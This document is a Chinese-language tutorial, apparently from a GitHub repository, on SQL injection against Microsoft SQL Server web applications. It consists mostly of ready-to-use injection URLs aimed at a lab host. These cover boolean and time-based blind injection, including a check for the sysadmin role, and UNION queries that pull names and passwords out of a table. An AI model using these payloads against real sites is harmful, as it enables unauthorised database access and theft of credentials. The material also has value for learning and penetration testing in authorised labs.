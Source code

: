 # 0x00 盲注

#### 布尔盲注

其实跟mysql大同小异 无非就是分割字符串比较，但是mssql的盲注套路确实没那么多


```
http://192.168.130.137/1.aspx?id=1 and ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1)) >= 109

```


#### 时间盲注


```
http://192.168.130.137/1.aspx?id=1;if (select IS_SRVROLEMEMBER('sysadmin'))=1 WAITFOR DELAY '0:0:5'--

http://192.168.130.137/1.aspx?id=1;if (ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1)))>1 WAITFOR DELAY '0:0:5'--


```


当然盲注你也可以使用前面提到的declare 灵活运用吧,对于盲注这块感觉mssql不如mysql灵活


# 0x02 联合注入

mssql联合注入我们一般不使用 数字占位，而是null，因为你使用数字占位可能会发生隐式转换


```
http://192.168.130.137/1.aspx?id=1 union select 1,2,3

```

![mysql](./img/1.6.1.png)

```
http://192.168.130.137/1.aspx?id=1 union select null,name,pass from info

```

![mysql](./img/1.6.2.png)

当然也可以这样用

```
http://192.168.130.137/1.aspx?id=1 SELECT 1 UNION (select CAST(USER as int))

```

![mysql](./img/1.6.3.png)


在mssql中我们如果想查询多条数据可以使用%2B 也就是加号

```
http://192.168.130.137/1.aspx?id=1 union select null,name%2Bpass,null from info

```

![mysql](./img/1.6.4.png)


# 0x03 文末


#### 本文如有错误，请及时提醒，避免误导他人


BY 404
